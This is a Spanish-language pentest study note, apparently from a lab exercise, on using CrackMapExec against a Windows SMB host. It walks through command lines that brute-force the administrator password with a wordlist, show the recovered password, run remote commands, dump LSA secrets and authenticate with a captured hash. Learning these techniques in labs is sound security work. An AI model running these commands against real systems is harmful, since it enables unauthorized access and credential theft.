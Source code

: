 
Herramienta de código abierto diseñada como herramienta de pentest usada para enumerar accesos de red, particularmente en sistemas windows, también para realizar conexiones y herramienta de explotación.

Vamos a ver un ejemplo de uso:

![[Pasted image 20250227093959.png]]

Vemos que utiliza SMB2 con lo que vamos a lanzar la herramienta CME.

```bash

#Para expecificar es importante indicar que vamos a utilizar SMB
crackmapexec smb -h

#Para realizar un ataque de fuerza bruta;
crackmapexec smb 10.4.26.151 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt --local-auth
```

![[Pasted image 20250227094356.png]]

Ya tenemos la pass sebastian para el usuario administrator.

```bash
#Para conseguir que ejecute comandos hay que hacer lo siguiente
crackmapexec smb 10.4.26.151 -u administrator -p 'sebastian' -x 'whoami'
```

![[Pasted image 20250227094539.png]]

```bash
#Para conseguir ver los módulos podemos hacer 
crackmapexec smb -L

#Para coneseguir los secretos podríamos ejecutar
crackmapexec smb 10.4.26.151 -u administrator -p 'sebastian' --lsa
```

![[Pasted image 20250227095242.png]]

Incluso podemos conseguir los hashes

![[Pasted image 20250227095321.png]]

```bash
#También podemos interactuar con el hash
crackmapexec smb 10.4.26.151 -u administrator -H hash
```

